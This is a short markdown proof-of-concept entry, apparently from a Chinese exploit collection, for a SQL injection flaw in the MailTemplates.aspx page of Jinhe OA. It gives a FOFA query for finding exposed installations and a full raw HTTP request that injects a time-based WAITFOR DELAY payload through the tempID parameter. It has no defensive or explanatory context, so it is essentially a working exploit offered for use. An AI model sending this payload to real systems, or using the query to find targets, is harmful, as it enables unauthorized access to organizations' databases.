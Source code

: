 ## 金和OA_MailTemplates.aspx_SQL注入漏洞

## fofa
```
app="金和网络-金和OA"
```

## poc
```
GET /C6/JHSoft.Web.Mail/MailTemplates.aspx/?tempID=1%3BWAITFOR+DELAY+%270%3A0%3A3%27-- HTTP/1.1
Host: you_ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```

![image](../../images/e0ea8fe9-db1d-4f17-ba75-d8dc01cb085f.png)

![image](../../images/c3b40a68-6354-4667-ba6c-5f061b5f050f.png)
